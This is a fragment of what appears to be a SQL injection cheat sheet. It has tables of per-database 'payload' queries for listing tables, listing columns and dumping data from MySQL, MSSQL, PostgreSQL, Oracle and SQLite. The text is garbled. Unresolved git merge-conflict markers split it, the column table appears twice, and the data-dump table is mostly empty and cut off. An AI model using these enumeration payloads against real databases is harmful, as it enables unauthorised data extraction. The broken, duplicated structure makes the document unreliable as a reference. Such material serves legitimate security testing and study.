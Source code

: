 | DBMS       | Payload                                                              |
|------------|----------------------------------------------------------------------|
| MySQL      | SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[DBNAME]' <br> SELECT database_name,table_name FROM mysql.innodb_table_stats WHERE database_name='[DBNAME]'                                   |
| MSSQL      | SELECT table_name FROM information_schema.tables WHERE table_catalog='[DBNAME]' <br> SELECT name FROM [DBNAME]..sysobjects WHERE xtype='U'                                                                           |
| PostgreSQL | SELECT tablename FROM pg_tables WHERE schemaname = '[SCHEMA_NAME]' <br> SELECT table_name FROM information_schema.tables WHERE table_schema='[SCHEMA_NAME]'                                                        |
| Oracle     | SELECT OWNER,TABLE_NAME FROM SYS.ALL_TABLES WHERE OWNER='[DBNAME]'   |
| SQLite     | SELECT tbl_name FROM sqlite_master WHERE type='table'                |
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

* * *

# List Columns

| DBMS       | Payload                                                                                                                    |
|------------|----------------------------------------------------------------------------------------------------------------------------|
| MySQL      | SELECT column_name,column_type FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='[TABLE_NAME]' AND table_schema='[DBNAME]' |
| MSSQL      | SELECT COL_NAME(OBJECT_ID('[DBNAME].[TABLE_NAME]'), [INDEX])                                                               |
| PostgreSQL | SELECT column_name,data_type FROM information_schema.columns WHERE table_schema='[DBNAME]' AND table_name='[TABLE_NAME]'   |
| Oracle     | SELECT COLUMN_NAME,DATA_TYPE FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME='[TABLE_NAME]' AND OWNER='[DBNAME]'                 |
| SQLite     | SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='[TABLE_NAME]' <br> SELECT name FROM PRAGMA_TABLE_INFO('[TABLE_NAME]')   |

* * *

# Dump Data

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT [COLUMN_NAME] FROM [DBNAME].[TABLE_NAME] |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                |
| SQLite     | N/A     
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md


| DBMS       | Payload                                                                                                                    |
|------------|----------------------------------------------------------------------------------------------------------------------------|
| MySQL      | SELECT column_name,column_type FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='[TABLE_NAME]' AND table_schema='[DBNAME]' |
| MSSQL      | SELECT COL_NAME(OBJECT_ID('[DBNAME].[TABLE_NAME]'), [INDEX])                                                               |
| PostgreSQL | SELECT column_name,data_type FROM information_schema.columns WHERE table_schema='[DBNAME]' AND table_name='[TABLE_NAME]'   |
| Oracle     | SELECT COLUMN_NAME,DATA_TYPE FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME='[TABLE_NAME]' AND OWNER='[DBNAME]'                 |
| SQLite     | SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='[TABLE_NAME]' <br> SELECT name FROM PRAGMA_TABLE_INFO('[TABLE_NAME]')   |
